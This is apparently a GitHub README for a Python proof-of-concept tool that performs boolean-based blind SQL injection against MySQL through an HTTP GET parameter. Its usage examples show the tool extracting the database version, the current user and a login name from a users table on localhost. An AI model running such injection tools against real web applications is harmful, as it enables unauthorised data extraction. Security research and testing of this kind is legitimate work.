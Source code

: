 # mysql_bb
Boolean-based blind SQL injection Proof of Concept for MySQL.

This script attempts to retrieve result of given SQL query by making boolean-based blind injection into supplied HTTP GET URI.
## Usage example
```bash
python3 mysql_bb_poc.py "http://localhost?param=" "select version()"
5.5.47-0+deb8u1
(+) done!
python3 mysql_bb_poc.py "http://localhost?param=" "select user()"
root@localhost
(+) done!
python3 mysql_bb_poc.py "http://localhost?param=" "select login from users"
admin
(+) done!
```
